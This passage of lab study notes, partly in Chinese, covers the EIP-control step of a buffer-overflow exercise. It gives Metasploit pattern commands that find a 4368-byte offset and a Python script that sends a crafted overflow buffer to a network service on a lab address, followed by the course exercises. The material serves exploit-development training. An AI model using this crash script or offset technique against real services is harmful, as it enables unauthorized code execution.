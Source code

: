 
## 2-Controlling EIP

```
//生成顺序payload，确认eip 地址
msf-pattern_create -l 4379

//记录crash eip地址，查找位置 46367046
msf-pattern_offset -q 46367046
[*] Exact match at offset 4368
```

运行python crash 并记录eip地址
```python
#!/usr/bin/python
import socket
host = "192.168.23.133"
crash = "xxx from msf pattern create"
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print  "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print  "[*]Payload Sent !"
```

check eip offsec
```
crash = "\x41" * 4368 + "B" * 4 + "C" * 7
```


### exer
```
12.3.1.1 Exercises
1. Determine the correct buffer offset required to overwrite the return address on the stack.
2. Update your stand-alone script to ensure your offset is correct.
```

![](./images/bof/50739600-cfae-499d-aeec-ced91cbca891.png)